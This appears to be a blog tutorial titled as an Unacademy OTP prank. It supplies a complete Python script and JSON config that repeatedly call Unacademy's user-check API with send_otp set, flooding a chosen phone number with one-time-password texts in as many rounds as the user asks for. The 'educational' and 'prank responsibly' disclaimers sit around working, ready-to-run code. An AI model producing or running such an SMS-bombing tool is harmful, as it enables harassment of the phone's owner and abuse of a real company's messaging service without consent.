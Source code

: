 ```yaml
---
title: "Unlimited Unacademy OTP's Prank"
date: '2023-09-24'
tags: ['python', 'scripting', 'prank', 'unacademy', 'otp', 'tutorial']
draft: false
images: ['https://cdn-images-1.medium.com/max/800/0*Ti2wMJmJ90jvAx15']
summary: 'A Python script tutorial for sending unlimited Unacademy OTPs to phone numbers, intended for educational purposes and responsible pranking.'
---
```


## Table of Contents

1. **Introduction**
2. **Prerequisite**
3. **Getting Started**
4. **Running the Script**
5. **Important Note**
6. **Conclusion**

## Introduction

In this article, we'll delve into a Python script that adds a touch of humor to your day by sending **unlimited Unacademy OTPs** to your friends' mobile numbers. However, it's crucial to stress that the primary purpose of this script is educational, and any misuse or harm is strongly discouraged.

## Prerequisite

Before we jump into the script, ensure that you have Python and pip installed on your system. You should also have a basic understanding of Python programming. There's no need for any third-party dependencies for this project; all you require is your setup and the provided script.

## Getting Started

1. Begin by creating a folder named "Script" in your preferred location.
2. Within the "Script" folder, craft three files:

   - main.py
   - data.json
   - requirements.txt

3. In the "requirements.txt" file, insert the following line:

```typescript
requests
```

4. In the "data.json" file, paste the following code:

```json
[
  {
    "name": "UNACADEMY",
    "url": "https://unacademy.com/api/v3/user/user_check/?enable-email=true",
    "headers": {},
    "body": {
      "phone": "",
      "country_code": "IN",
      "otp_type": 1,
      "email": "",
      "send_otp": true,
      "is_un_teach_user": false
    }
  }
]
```

**Note**: You can update the "country_code" to match your country's ID.

5. In the "main.py" file, paste the Python script provided:

```python
import requests
import json
import time


def send_requests(index, data, mobile_number):
    for obj in data:
        name = obj["name"]
        url = obj["url"]
        headers = obj["headers"]
        payload = obj["body"]

        # Update payload with the mobile number
        for key in payload.keys():
            if key in keys_to_update:
                payload[key] = mobile_number

        response = requests.post(url, headers=headers, json=payload)

        # Check the response status code
        if response.status_code == 200:
            message = json.loads(response.text)
            print(f"{index+1} => {name}: {message['message']}")
        else:
            print(f"{name}: Request failed with status code {response.status_code}")

        # Add a 1-minute delay between requests
        time.sleep(60)


if __name__ == "__main__":
    # Fetch mobile number from the user
    mobile_number = input("Please Enter Phone Number: ")
    count = int(input("Please Enter Message count: "))

    # Opening JSON file
    with open("data.json") as f:
        data = json.load(f)

    # Keys to update in Payload
    keys_to_update = ["phone"]

    for index in range(count):
        # Send requests
        send_requests(index, data, mobile_number)
```

## Running the Script

Now, follow these commands to execute the script:

```python
# Create a virtual environment
python3 -m venv .venv

# Activate the virtual environment (Linux/Mac)
source .venv/bin/activate

# Activate the virtual environment (Windows)
.venv\Scripts\activate

# Install dependencies
pip3 install -r requirements.txt

# Run the Python script
python3 main.py
```

> After executing the script, you will be prompted to **enter the target phone number and number of OTP's you want to send**. Enter details, Press enter. And within 5 seconds, you will receive Unacademy OTP's.

## Important Note

At the time of writing this article, there are no restrictions number of OTP's but we can send one OTP each minute. You have the freedom to send as many OTPs as you desire to play pranks on your friends. However, it's important to note that the situation may change in the future, so be sure to check for any updates if you're reading this at a later date.

## Conclusion

This Python script serves as an educational tool and a lighthearted way to explore programming. Always exercise responsible and ethical coding practices. Enjoy your Unacademy OTP prank responsibly and respect the privacy and consent of others.
